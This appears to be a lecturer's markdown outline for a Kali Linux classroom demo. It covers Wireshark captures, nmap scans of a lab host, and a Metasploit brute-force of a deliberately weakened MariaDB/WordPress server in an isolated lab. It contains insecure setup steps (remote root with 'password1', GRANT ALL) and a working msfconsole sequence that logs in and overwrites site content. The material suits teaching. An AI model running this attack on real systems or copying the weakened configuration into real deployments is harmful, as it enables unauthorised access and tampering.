



# Kali Linux demo

## Before we begin...

- **Very visibly disconnect from the Internet!**

## Kali Linux browse around

OK, you can reconnect to the Internet for this bit.

- Hover over programs to find out more information about them
- 'Undercover mode'
- Terminology...
	- OSINT?
	- SMB?
	- SMTP?
	- SNMP?
	- SSL?
- Linux filesystem structure
	- Home folder
	- `/`
	- `/bin/`, `/etc/`, `/var/`, et cetera — see https://en.wikipedia.org/wiki/Filesystem_Hierarchy_Standard
	- `/usr/share/wordlists/` ... ?

**Now: Very visibly disconnect from Internet!**

## Wireshark and nmap demo

**Continue to stay disconnected from the Internet!**

First, get Wireshark working:

- Launching wireshark
- Which interface to use?
- Which buttons to click?
	- Hover to check labels
	- Red button to stop
	- "X" file icon - Close this capture file - then select interface again
	- Downwards blue arrow - automatically follows trace
	- Restart current capture

What happens if we run:

- `nmap`
- `nmap --help`
- `nmap -vv -A 192.168.64.34`
- `nmap -A 192.168.64.34`

OK, you can reconnect to the Internet for this bit:

&uparrow; Interesting things to note here:

- `22/tcp open ssh OpenSSH 9.2p1 Debian ...`
	- https://www.cve.org/CVERecord/SearchResults?query=debian
		- https://security-tracker.debian.org/tracker/
	- https://www.cve.org/CVERecord/SearchResults?query=openssh
- `80/tcp open http Apache httpd 2.4.62 (Debian)`
	- https://www.cve.org/CVERecord/SearchResults?query=apache+httpd
- `http-generator: WordPress 6.1.6`
	- https://www.cve.org/CVERecord/SearchResults?query=wordpress
- `3306/tcp open mysql MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1`
	- https://www.cve.org/CVERecord/SearchResults?query=mysql
	- https://www.cve.org/CVERecord/SearchResults?query=mariadb
	
**Now: Very visibly disconnect from Internet!**

## Metasploit attack demo

### Setup Wordpress (if time permits)

OK, you can reconnect to the Internet for this bit:

- Followed https://wiki.debian.org/WordPress with adaptations:
	- Start with `sudo su -`
	- When running `mysql_secure_installation`
		- DO NOT switch to unix_socket authentication!
		- YES, change root password to password1
		- YES, remove anonymous users
		- DO NOT disallow root login remotely
		- YES, remove test database
		- YES, reload privilege tables
	- Replace myblog.example.com with debian001
	- Use `/etc/wordpress/config-default.php`
	- Use database root user for config
	- `mysql -u root -p`
	- `CREATE DATABASE wordpress;`
	- `quit;` or Ctrl+D to leave
- Then did the rest by web browser
	- Site Title = The Fantastic Website of Blair
	- Username = `blair`
	- Password = `password1`
	- Yes, Confirm use of weak password
	- Email = `hello@example.com`
- Deliberately weaken mysql setup
	- `mysql -u root -p`
		- `USE mysql;`
		- `DESCRIBE user;`
		- `SELECT host, user FROM user;`
		- `CREATE USER 'root'@'%' IDENTIFIED BY 'password1';`
		- `GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;`
		- `FLUSH PRIVILEGES;`
	- `nano /etc/mysql/mariadb.conf.d/50-server.cnf`
	- Comment-out the `bind-address` line
	- `systemctl restart mysqld`
		- Read more about systemd - https://en.wikipedia.org/wiki/Systemd
		- Older or more esoteric systems may use various other systems - https://en.wikipedia.org/wiki/Init#Other_implementations
		- Try `systemctl status mysqld`

### Demonstrate Wordpress login and Wireshark trace of it

- Wireshark again
- Capture loading Wordpress page
	- Analyze --> Display Filters
	- `ip.addr == 192.168.64.34`
	- Observe user-agent
- Capture login
	- Filter: `ip.addr == 192.168.64.34 && _ws.col.info matches "POST"`
	- Scroll down to HTML Form data

&uparrow; Interesting things to note here:

- Compare with https://www.google.com/search?&q=tcp/ip+model&udm=2
	- Internet Protocol Version 4, Src: 192.168.64.28, Dst: 192.168.64.34
	- Transmission Control Protocol, Src Port: 33368, Dst Port: 80
	- Hypertext Transfer Protocol
- User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv: 128.0)
- Origin: http://192.168.64.34

### Attack using metasploit

**Now: Very visibly disconnect from Internet!**

- `msfconsole`
- notice how Ctrl+C and Ctrl+R work
- `search mysql`
- `search mysql login`
- `use auxiliary/scanner/mysql/mysql_login`
- `run rhost=192.168.64.34 username=root createsession=true pass_file=/usr/share/wordlists/metasploit/password.lst`
	- Run Wireshark immediately
	- When it stops, look at Wireshark log
		- `_ws.col.protocol == MySQL`

- `sessions`
- `sessions -i -1`
- `help`
- `query_interactive`
- `SHOW DATABASES;`
- `USE wordpress;`
- `SHOW TABLES;`
- Interrogate `wp_posts` using `DESCRIBE` and `SEELCT`; find specific post; overwrite content!
